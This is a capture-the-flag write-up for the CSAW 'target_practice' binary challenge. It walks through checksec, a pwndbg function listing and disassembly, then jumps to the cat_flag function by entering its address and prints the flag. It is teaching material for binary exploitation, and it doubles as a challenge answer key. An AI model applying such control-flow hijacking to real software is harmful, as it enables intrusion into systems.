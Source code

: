 # target\_practice

> Aim carefully... This pwnie can JUMP!&#x20;
>
> Author: `ElykDeer`&#x20;
>
> Connect with:&#x20;
>
> `nc intro.csaw.io 31138`&#x20;
>
> [target\_practice](https://ctf.csaw.io/files/c6114a63507eed08fa2523cebd848f26/target\_practice?token=eyJ1c2VyX2lkIjoxMzYwLCJ0ZWFtX2lkIjo1NjksImZpbGVfaWQiOjI2fQ.ZQSKuQ.klqJwPq9exGMJ0txJS0YZBqRsoA)

We can connect to the program using the following command:

```
$ nc intro.csaw.io 31138
Aim carefully....
```

So it asks us to aim carefully? Is it going to perform some sort of jump?

Let's look at the file type.

```
$ file target_practice
target_practice: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c2ae3c4733d9761d5043faa90d68371e52d74bc2, not stripped
```

We can see that it is a binary executable.

Using the `checksec` utility, we can also see the security properties of the file.

```
$ checksec target_practice 
[*] '/home/hacker/csaw23/targetPractice/target_practice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There's two important properties we want to focus on here:

* `NX enabled`: This means that the stack is not executable. Therefore we cannot use a shellcode injection.
* `No PIE (0x400000)`: This means that the executable is not positionally independent and it is always loaded at address `0x400000`. So the code and memory regions will have the same address every time we run it.

Let's look at the functions present in the binary.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004005a8  _init
0x00000000004005d0  __stack_chk_fail@plt
0x00000000004005e0  system@plt
0x00000000004005f0  printf@plt
0x0000000000400600  fflush@plt
0x0000000000400610  setvbuf@plt
0x0000000000400620  __isoc99_scanf@plt
0x0000000000400630  _start
0x0000000000400660  _dl_relocate_static_pie
0x0000000000400670  deregister_tm_clones
0x00000000004006a0  register_tm_clones
0x00000000004006e0  __do_global_dtors_aux
0x0000000000400710  frame_dummy
0x0000000000400717  cat_flag
0x000000000040072a  main
0x00000000004007f0  __libc_csu_init
0x0000000000400860  __libc_csu_fini
0x0000000000400864  _fini
```

The `cat_flag` function seems interesting, let's disassemble it and see.

```
pwndbg> disassemble cat_flag
Dump of assembler code for function cat_flag:
   0x0000000000400717 <+0>:     push   rbp
   0x0000000000400718 <+1>:     mov    rbp,rsp
   0x000000000040071b <+4>:     lea    rdi,[rip+0x152]        # 0x400874
   0x0000000000400722 <+11>:    call   0x4005e0 <system@plt>
   0x0000000000400727 <+16>:    nop
   0x0000000000400728 <+17>:    pop    rbp
   0x0000000000400729 <+18>:    ret
End of assembler dump.
```

The `cat_Flag` function is located at the address `0x0000000000400717`.

If we look at the instruction at `cat_flag+11`, we can see a system call. The instruction at `cat_flag+4` loads the argument for that same system call.

```
pwndbg> x/s 0x400874
0x400874:       "cat /flag.txt"
```

On examining the argument, we can see that it is in executing `cat` with the `flag.txt` file. Now we know that the `ret2win` function needs to be called in order to get the flag.

So the `cat_flag` function does actually give us the flag. Let's connect again and provide the address `0x0000000000400717` as the input.

```
$ nc intro.csaw.io 31138
Aim carefully.... 0x0000000000400717
csawctf{y0ure_a_m4s7er4im3r}
```

### Flag

```
csawctf{y0ure_a_m4s7er4im3r}
```
